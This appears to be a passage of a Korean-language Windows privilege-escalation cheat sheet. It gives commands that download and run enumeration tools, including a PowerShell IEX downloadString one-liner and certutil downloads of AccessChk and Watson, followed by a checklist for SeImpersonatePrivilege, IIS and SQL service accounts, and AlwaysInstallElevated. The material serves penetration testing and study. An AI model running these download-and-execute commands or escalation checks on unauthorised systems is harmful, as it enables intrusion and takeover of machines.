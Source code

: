 ### 🔧 Sherlock (PowerShell)

```powershell
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1')
Find-AllVulns
```

### 📊 AccessChk (SysInternals)

```cmd
# 다운로드
certutil -urlcache -split -f "https://download.sysinternals.com/files/AccessChk.zip" accesschk.zip

# 사용법
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv Everyone * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
```

### 🔍 Watson (커널 익스플로잇 검색)

```cmd
certutil -urlcache -split -f "https://github.com/rasta-mouse/Watson/releases/download/v2.0/Watson.exe" watson.exe
.\watson.exe
```

## 👀 놓치기 쉬운 것들

### 🚨 Critical - 반드시 확인해야 할 것들

- [ ] **SeImpersonatePrivilege 확인**

  ```cmd
  whoami /priv | findstr SeImpersonatePrivilege
  # 있으면 99% 성공! Juicy Potato, PrintSpoofer 등 사용
  ```

- [ ] **IIS 관련 권한**

  ```cmd
  # IIS_IUSRS 그룹에 속하면 SeImpersonatePrivilege 있을 가능성 높음
  whoami /groups | findstr IIS_IUSRS
  ```

- [ ] **SQL Server 서비스 계정**

  ```cmd
  # SQL Server 서비스로 실행중이면 SeImpersonatePrivilege 있음
  whoami /groups | findstr "SERVICE SID"
  ```

- [ ] **AlwaysInstallElevated 레지스트리**
  ```cmd
  reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
  reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
  # 둘 다 0x1이면 즉시 SYSTEM 가능!
  ```
